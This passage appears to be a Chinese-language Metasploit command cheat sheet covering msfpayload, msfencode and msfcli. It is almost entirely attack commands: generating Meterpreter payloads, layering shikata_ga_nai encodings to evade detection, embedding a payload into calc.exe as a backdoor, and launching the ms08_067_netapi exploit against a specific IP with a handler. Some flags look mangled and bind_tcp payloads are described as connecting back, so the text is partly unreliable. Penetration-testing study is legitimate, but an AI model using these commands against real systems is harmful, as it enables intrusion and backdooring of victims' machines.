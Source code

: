 msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 J > payload.java

生成以%u编码方式的JavaScript语言字符串

四、MSFencode命令
msfencode -h

帮助信息

msfencode -l

列出所有可用的编码器

msfencode -t (c,elf,exe,java,js_le,js_be,perl,raw,ruby,vba,vbs,loop-vbs,asp,war,macho)

显示编码缓冲区的格式

msfencode -i payload.raw -o encoded_payload.exe -e -x86/shikata_ga_nai -c 5 -t exe

使用shikata_ga_nai编码器对payload.raw文件进行5次编码，然后导出一encoded_payload.exe文件

msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -e x86/_countdown -c -5 -t raw | msfencode -e x86/shikata_ga_nai -c -5 -t exe -o multi-encoded_payload.exe

创建一个经过多种编码格式嵌套编码的攻击载荷

msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c

创建一个纯字母数字的shellcode，由ESI寄存器指向shellcode，以c语言格式输出。

五、MSFcli命令
msfcli | grep exploit

仅列出渗透攻击模块

msfcli | grep exploit/windows

仅列出与windows相关的渗透攻击模块

msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E

对172.16.32.142发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听

六、Metasploit高级忍术
msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode  -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机443端口上，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机443端口上，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会在目标主机上弹出任何信息。这种配置非常有效，当你利用浏览器漏洞控制了远程主机，并不想让计算器程序打开呈现在目标用户面前。同样，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe

msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -x calc.exe -k- -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe && msfcli multi/handler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E
